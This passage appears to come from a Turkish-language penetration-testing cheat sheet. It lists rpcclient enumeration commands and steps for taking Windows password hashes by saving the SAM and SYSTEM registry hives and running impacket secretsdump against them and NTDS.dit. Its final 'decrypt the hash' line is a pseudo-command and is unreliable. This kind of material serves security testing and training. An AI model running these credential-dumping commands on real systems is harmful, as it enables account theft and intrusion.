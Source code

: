 ### Ayrıcalıkları Listeleme:
```bash
enumprivs
```

### Yazıcıları Listeleme:
```bash
enumprinters
```

### Sunucu Bilgilerini Listeleme:
```bash
srvinfo
```

### Etki Alanı Gruplarını Listeleme:
```bash
enumalsgroups domain
enumalsgroups builtin
```

### Yönetici Kullanıcıları Bulma:
```bash
queryuser 500
```

### SID Bilgilerini Listeleme:
```bash
lookupnames username/groupname
```

## SAM ve SYSTEM Dosyalarından Hash Alma

### Regedit Kullanarak Kayıt Alma:
```powershell
reg save HKLM\SAM C:\sam
reg save HKLM\SYSTEM C:\system
```

### Impacket-Secretsdump Kullanarak Hash Alma:
```bash
impacket-secretsdump -sam SAM -system SYSTEM local
```

### NTDS.DIT ve SYSTEM Dosyaları Kullanarak Hash Alma:
```bash
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

### Hash Şifre Düşürme:
Eğer hash `31d6` ile başlıyorsa, şifre boş veya hesap devre dışıdır.
```bash
decrypt the hash from http://hashes.org/search.php
```
